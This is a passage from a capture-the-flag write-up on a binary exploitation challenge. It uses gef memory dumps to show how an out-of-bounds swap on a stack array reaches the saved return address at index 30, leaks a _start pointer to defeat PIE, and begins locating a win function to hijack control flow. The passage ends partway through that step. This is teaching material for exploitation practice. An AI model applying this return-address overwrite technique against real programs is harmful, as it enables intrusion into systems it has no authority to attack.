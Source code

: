 ```md
gef➤  x/80gx 0x7fffffffdd50
0x7fffffffdd50: 0x000055555555605c (Apple)      0x0000555555556062 (Banana)
0x7fffffffdd60: 0x0000555555556069 (Cherry)      0x0000555555556070 (Date)  
...
0x7fffffffde00: 0x000055555555610a      0x0000555555556115      
0x7fffffffde10: 0x000055555555611b (Yellow Passion Fruit)      0x0000555555556130 (Zucchini)
0x7fffffffde20: 0x0000000000000000      0x0000000000000000      
0x7fffffffde30: 0x0000000000000000      0x00007ffff7fe5af0      
0x7fffffffde40: 0x00007fffffffdf30 <*>points to 0x7fffffffdf30, which is pointing to 0x00005555555551e0</*>      0xe917ca99f246e100      
0x7fffffffde50: 0x00007fffffffdef0      0x00007ffff7dce1ca      
...
```

If we count the number of words from the start of the array (`0x7fffffffdd50`) to the return address (`0x7fffffffde40`), we get **30**.

This means if we input an index of 30, we will be swapping to the return address.

To verify this, we can try swapping index 0 and 30, and observing the stack.

```md
gef➤  continue
swap
gef➤  continue
0 30

gef➤  x/80gx 0x7fffffffdd50
0x7fffffffdd50: 0x00007fffffffdf30 <*>the pointer to _start moved here :O</*>      0x0000555555556062 (Banana)
...
0x7fffffffde00: 0x000055555555610a      0x0000555555556115
0x7fffffffde10: 0x000055555555611b      0x0000555555556130
0x7fffffffde20: 0x0000000070617773 <*>notice this changed, this would be important in the next step</*>      0x0000000000000000
0x7fffffffde30: 0x0000000000000000      0x00007ffff7fe5af0
0x7fffffffde40: 0x000055555555605c <*>the original end pointer turned to Apple</*>      0xe917ca99f246e100
...
```

As we can see, the pointer to `_start` has moved to `fruits[0]`, and the pointer to `"Apple"` has moved to where the pointer to `_start` was.

When we continue the program and use the `show` command, we can get the actual address of the `_start` function.
(We could not directly use the `win` function address because PIE is enabled, and it is randomized every time.)

## Step 4. Changing the return address to the win function

Let's see if we can find any stored address of the `win` function in the stack.

```md
gef➤  info function win
All functions matching regular expression "win":
Non-debugging symbols:
0x00005555555552c9  win()

gef➤  search-pattern 0x00005555555552c9
[+] Searching '\xc9\x52\x55\x55\x55\x55\x00\x00' in memory
```
